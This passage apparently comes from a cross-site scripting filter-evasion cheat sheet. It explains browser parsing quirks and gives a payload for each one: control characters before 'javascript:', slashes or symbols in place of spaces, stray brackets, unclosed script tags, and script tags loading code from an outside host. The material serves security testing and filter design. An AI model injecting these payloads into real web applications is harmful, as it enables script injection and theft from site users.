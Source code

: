 				This is useful if the pattern match doesn’t take into account spaces in the word “javascript:” -which is correct since that won’t render- and makes the false assumption that you can’t have a space between the quote and the “javascript:” keyword. The actual reality is you can have any char from 1-32 in decimal:
				1
				<IMG SRC=" &#14;  javascript:alert('XSS');">


				Non-alpha-non-digit XSS

				The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example “<SCRIPT\s” != “<SCRIPT/XSS\s”:
				1
				<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

				Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc…) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
				1
				<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

				Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.
				1
				<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>


				Extraneous open brackets

				Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:
				1
				<<SCRIPT>alert("XSS");//<</SCRIPT>


				No closing script tags

				In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don’t actually need the “></SCRIPT>” portion of this Cross Site Scripting vector. Firefox assumes it’s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they’re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:
				1
				<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >


				Protocol resolution in script tags

				This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh’s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a </SCRIPT> tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The “.j” is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.
				1
				<SCRIPT SRC=//ha.ckers.org/.j>
